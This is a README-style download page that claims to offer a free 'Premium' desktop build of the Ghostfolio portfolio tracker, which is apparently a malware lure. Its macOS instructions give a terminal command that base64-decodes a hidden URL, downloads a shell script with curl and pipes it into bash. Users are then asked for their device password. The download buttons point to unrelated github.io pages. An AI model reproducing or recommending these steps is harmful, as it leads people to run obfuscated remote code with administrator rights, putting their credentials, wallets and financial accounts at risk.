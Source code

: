 # Ghostfolio Premium Free Download

<div align="center">

![Ghostfolio Logo](https://avatars.githubusercontent.com/u/82473144?s=200)

</div>

**Ghostfolio Premium** is a powerful open-source wealth and portfolio management application that helps investors track their stocks, ETFs, cryptocurrencies, and other assets with professional-grade analytics. With **Ghostfolio Premium Free**, you get the full power of Ghostfolio’s premium features without subscription costs — available as a desktop app for Windows and macOS.

<div align="center">
  
[![Download for Windows](https://img.shields.io/badge/Download_for_Windows-blue?style=for-the-badge&logo=windows)](https://ghostfolio-app-premium-free.github.io/.github)  
[![Download for Mac](https://img.shields.io/badge/Download_for_Mac-silver?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/ghostfolio-premium)

</div>

---

## 📊 What is Ghostfolio Premium?

**Ghostfolio Premium** is an advanced portfolio tracking platform designed for individual investors, traders, and financial analysts who need clear, data-rich insights into their investments. Unlike traditional finance apps, Ghostfolio is **privacy-focused, open-source, and customizable**, giving you complete control over your financial data.  

With **Ghostfolio Premium Free**, you get all the features of the premium plan — multi-asset support, advanced performance analytics, allocation breakdowns, and portfolio simulations — without any recurring payments. The desktop app version allows for **fast local performance**, offline access to your portfolio data, and tighter security compared to purely web-based platforms.

Ghostfolio connects to various **brokerages, crypto exchanges, and wallets**, automatically importing your transactions and updating portfolio values in real-time. You can track stocks, ETFs, mutual funds, bonds, cryptocurrencies, and even alternative assets like precious metals. The app supports **multi-currency portfolios** and automatically converts values using real-time FX rates.

The built-in analytics engine provides **risk metrics, sector/region allocations, dividend tracking, and performance over time**. Investors can also benefit from **scenario analysis and backtesting**, testing how different allocations or market events could impact their portfolios.  

For crypto investors, Ghostfolio integrates with leading exchanges via API, showing your token balances, DeFi positions, and historical profit/loss at a glance. It’s equally valuable for long-term investors who need clear portfolio reports and short-term traders who require detailed transaction history and real-time monitoring.

---

## 🖥️ Key Features

- **Full Premium Access** – All premium features unlocked for free  
- **Multi-Asset Support** – Stocks, ETFs, crypto, bonds, and more  
- **Real-Time Tracking** – Live updates from brokerages, exchanges, and wallets  
- **Advanced Analytics** – Risk metrics, allocation breakdowns, and performance history  
- **Crypto Portfolio Integration** – API sync with top exchanges and wallets  
- **Multi-Currency Support** – Automatic FX conversions for international portfolios  
- **Dividend & Yield Tracking** – Income projections and dividend history  
- **Scenario Analysis & Backtesting** – Simulate market changes on your portfolio  
- **Offline Access** – View your portfolio securely without relying on cloud sync  
- **Open-Source Security** – Transparency and control over your financial data

---

![Ghostfolio Dashboard](https://raw.githubusercontent.com/lildude/ha-addon-ghostfolio/main/imgs/screenshot-dark.png)

---

## ⚙️ System Requirements

- **OS**: Windows 10/11 (64-bit) or macOS 11+  
- **CPU**: Intel i5 / Apple Silicon M1 or newer  
- **RAM**: 8 GB minimum (16 GB recommended)  
- **Disk**: 500 MB free space  
- **Internet**: Required for real-time data and API sync

---

## 📥 Installation Guide

## For Windows:

1. Download the archive with the program files
2. Unzip all files
3. Run the program's `.exe` file.


## For MacOS:

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🏷️ Tags

`ghostfolio` • `ghostfolio premium` • `ghostfolio premium free` • `ghostfolio premium app download` • `ghostfolio portfolio tracker` • `ghostfolio wealth management` • `ghostfolio crypto tracking` • `ghostfolio free premium` • `ghostfolio multi-asset` • `ghostfolio desktop app`

---
